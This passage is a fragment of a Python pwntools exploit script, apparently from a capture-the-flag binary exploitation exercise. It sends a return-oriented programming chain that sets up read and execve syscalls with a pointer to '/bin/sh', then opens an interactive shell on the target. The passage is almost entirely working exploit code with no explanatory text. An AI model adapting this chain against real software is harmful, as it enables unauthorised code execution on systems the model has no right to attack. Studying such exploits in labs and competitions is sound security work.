 ```python

# where to read
sender(p64(binsh_addr))

# how much to read
sender(p64(8))

# syscall code
sender(b'\x00'*4)
sender(b'\x00'*4)

# sycall + ret gadget
sender(b'\x00'*4)
sender(p64(0x00000000004001b3))

# junking next stack cell
sender(b'BBBB')
sender(b'BBBB')

# setting up the stack to spawn the shell

# address of pop gadget
sender(p64(magic_gadget[0]))
sender(b'\x00'*4)

# address of /bin/sh
sender(p64(binsh_addr))

# pointer to zero
sender(p64(zeros_addr))
sender(b'\x00'*4)

# pointer to zero
sender(p64(zeros_addr))

# # syscall code
sender(b'\x3b')
sender(b'\x00'*4)

# syscall gadget address
sender(p64(syscall[0]))
sender(b'\x00'*4)

# breaking the loop
input('[#1] press any key to break the loop...')
r.send(b'A')
sleep(delay)
input('[#2] press any key to break the loop...')
r.send(b'A')
sleep(delay)
input('[#3] press any key to break the loop...')
r.send(b'A')
sleep(delay)

input('press any key to send /bin/sh')
r.send(b'/bin/sh\x00')
sleep(delay)

# hopefully getting a shell
r.interactive()
```
